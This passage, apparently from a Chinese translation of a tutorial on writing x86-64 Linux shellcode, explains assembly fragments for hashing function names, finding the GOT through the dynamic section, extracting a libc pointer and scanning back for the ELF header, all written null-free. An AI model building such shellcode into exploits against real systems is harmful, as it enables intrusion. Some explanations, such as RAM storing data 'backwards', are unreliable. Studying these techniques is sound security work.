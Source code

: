 `rdx`作为调用哈希程序的代码的零寄存器(zreg/zero register)。可以指通过简单的`push/pop`把`rax`置零来：

    initialize_regs:
        push rdx
        pop rax

接着，DF位(directional flag)被清空。这很重要，因为接下来的哈希过程使用了`lodsd`，而有漏洞应用的DF位不确定。

    cld

接着，`al`中的字节和`edx`相加，结果存入`edx`。左移12位(0xc)，当`lodsd`载入的字节是null时，哈希值就计算完毕了。

    calc_hash_loop:
        lodsb
        rol edx, 0xc
        add edx, eax
        test al, al
        jnz calc_hash_loop

接着使用push和pop把哈希置入`rsi`：

    calc_done:
        push rdx
        pop rsi

最后，恢复保存到寄存器

    restore_regs:
        pop rdx
        pop rax

## 遍历到GOT的动态节(dynamic section)

当前执行进程的动态节程序头总是在VMA(Virtual Memory Adress，虚拟内存地址)`0x00400130`。以下是个没有`\x00`(null-free)的版本：

    _start:
        push 0x400130ff
        pop rbx
        shr ebx, 0x8

指向动态节的指针被抽取，长度被添加到动态节的长度上。GOT(Global Offset Table，全局偏移表)刚好就在动态节后面。通过以这种方式计算偏移量，可以不必从文件头中读取GOT的位置来遍历GOT。这有无数的好处。(译者：不知道有啥好处。。。)

    fast_got:
        mov rcx, [rbx]
        add rcx, [rbx+0x10]

### 抽取一个库指针

这个代码从GOT抽取个指向libc中任意函数的指针。比如在`rcx+0x18`地方，有指向`_dl_runtime_resolve`的指针。

    extract_pointer:
        mov rbx, [rcx+0x20]

现在寻找想要导入的二进制文件的基指针，首先寻找`\x7fELF`。因为RAM倒着保存信息，使用逆向比较来决定何时逆向循环。

    find_base:
        dec rbx
        cmp [rbx], 0x464c457f
        jne find_base
